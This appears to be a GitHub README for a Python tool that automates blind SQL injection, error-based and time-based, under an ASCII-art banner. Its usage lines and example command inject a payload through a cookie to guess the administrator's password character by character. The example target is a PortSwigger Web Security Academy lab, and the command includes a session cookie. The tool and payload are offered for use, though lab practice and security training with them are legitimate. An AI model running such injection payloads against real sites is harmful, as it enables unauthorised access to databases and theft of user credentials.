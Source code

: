 ```
Y#~!^                                      .~.    
7@@JG~            ..   :^~?Y?7.            .!5    
 !@&~G!            : ~&@@@@@@P            ..:5.   
  !@&~P~           ^:#@@@@@@&5~.           ::!^   
   ~@#:Y!           :G@@@@@&G5?~~^          ::7   
    !@B^G~          .P@@BY!    :~:          . ::  
    B@@P:57:^:       !P!  ::.?B#^          ~:.7.  
 !G&@&&&P?7..~~      7~~#Y#@@@&!        :!:^&@@:  
.@@@&P&#B5Y!:.J7     .J!@&#GB@B.        ^G? J@@#. 
 Y@@&#@#PJ7!7~~#:     5PG7~  :5P7            ~BG. 
  5@@@&^   7YB::Y     .?  .~  .JG:                
   :YP#~  .55?. G.     G:  ~J?^~Y^                
      .JY      .#^     JP   .^Y5^                 
        !5^     :^     .B:    !!:            .:~7Y
       .P@#J.!^         ^~  .7PB~          !GBPP5Y
       ^@@&J!P#~         :.~?~5:       :^~B&BJJ?P&
        !@B5YP#&7.       ^J:.        .7~Y##G?Y5&@@
        ~@@@@@@@&J^:  .!~~.         ~5?Y##YJP#&P&@
        5@@@&5GYP&PJ7.^:      ~    G7?G#G75&&P^?&&
        P@@GYPB#&&J^PP.       ~   :5 ?GP~J@#~ :G&&
        ?@@P?YYJPP  ~&&PGBBGBPJ: ^5J!:Y^!#Y  !#B5:
        .@@7~GJYJ^ ~#@@@@@@@@@@@&&#BB!!^!:  JBJ. ^
         B@&&Y77~:J@@@  ZATOICHI  @@&?JY.  .77Y7YP
```        

# Auto BLIND SQL INJECTION TOOL By Xifeng2009

## Usage
Specify ^PAYLOAD^ in url/cookie/header , this script will replace it with payload
Require: your own payload, the script will format payload with guessed password where {}{} is found

Blind SQL Injection Based on Error
python3 blindSQLman.py -u [URL] [-c [COOKIE]] -D [DIFF] 
Blind SQL Injection Based on Time
python3 blindSQLman.py -u [URL] [-c [COOKIE]] --tech T -D [DIFF] [--timeout 5]

## EXAMPLE:
    python3 blindSQLman.py -u https://ac7d1fba1e422a3ac0ad8e3800f20085.web-security-academy.net/filter?category=Gifts -c "TrackingId=Clv6J8Q4AjAffZhD^PAYLOAD^; session=dGVP3Aje0wspCVHJzYpBV0YluhL4o623" -p "' and (select password from users where username='administrator') like '{0}{1}%25'---" -D "Welcome back!"